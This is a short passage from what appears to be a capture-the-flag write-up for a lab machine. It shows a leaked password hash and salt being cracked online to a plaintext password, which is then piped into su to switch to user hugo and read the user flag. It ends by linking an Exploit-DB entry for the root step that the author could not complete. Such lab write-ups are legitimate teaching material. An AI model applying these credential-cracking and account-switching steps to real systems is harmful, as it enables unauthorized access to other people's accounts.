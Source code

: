 ```s
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
```

Password `bfcc887f62e36ea019e3295aafb8a3885966e265` and salt `5dde2887e7aca`. Crack this on `https://cmd5.com/` to get password as `Password120`.

`home` has two users: `hugo` and `shaun`. We go into `hugo` to find `users.txt`.

```s
echo Password120 | su hugo -c \"ls ../../../../../home/hugo\"
```

Response:

```s
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
user.txt
Videos
```

Opening this file:

```s
echo Password120 | su hugo -c \"cat ../../../../../home/hugo/user.txt\"
```
User flag: `1b6ab8eb1ca4daf8eea3f9dfeb70fa7d`

### Root flag

[This](https://www.exploit-db.com/exploits/47502) is the vulnerability being used here. I can't find a work around with my simple stuff.
